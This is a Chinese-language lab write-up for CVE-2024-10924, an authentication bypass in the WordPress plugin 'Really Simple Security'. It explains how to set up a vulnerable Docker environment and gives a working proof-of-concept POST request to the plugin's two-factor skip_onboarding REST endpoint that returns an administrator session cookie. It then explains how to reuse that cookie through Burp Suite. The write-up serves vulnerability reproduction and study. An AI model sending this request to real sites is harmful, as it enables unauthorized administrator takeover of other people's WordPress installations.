









# WordPress "Really Simple Security"插件 任意用户登陆漏洞（CVE-2024-10924）

WordPress 插件 “Really Simple Security” 中的一个严重漏洞（CVE-2024-10924）允许未经身份验证的攻击者绕过身份验证并获取管理员权限。

## 测试环境

执行如下命令启动一个WordPress漏洞环境：

```
docker compose up -d
```

访问 http://127.0.0.1:1337/wp-admin/install.php 进行WordPress安装



安装完成之后使用创建的管理员账号登录。登录后访问 http://127.0.0.1:1337/wp-admin/plugins.php ，点击“启用”激活Really Simple Security插件。（这里不能点“启动自动更新”，会升级成无漏洞版本）。



接着会跳出SSL激活选项，这里我们点击“Cancel”。



接着直接在当前页面点击“Settings”。



"Login Protection" > "Two-Factor Authentication"，接着如图顺序点击。



至此，CVE-2024-10924漏洞环境安装完成。

## 漏洞复现

正常访问 http://127.0.0.1:1337/wp-login.php 发现处于未登录状态。



执行以下POC，其中user_id的值是你要登录的用户（一般管理员id是1）。

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: 127.0.0.1:1337
Content-Type: application/json
Content-Length: 89
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

执行结果会返回Cookie值，把这个cookie放到正常请求包里即可使用admin的身份登录后台。





但这里会发现一个问题：这个cookie必须在每次请求都手动添加，非常麻烦。于是我们可以使用burpsuite中的“Match and replace rules”设置来在每一次请求包中添加Cookie，实现在后台顺滑地进行操作。



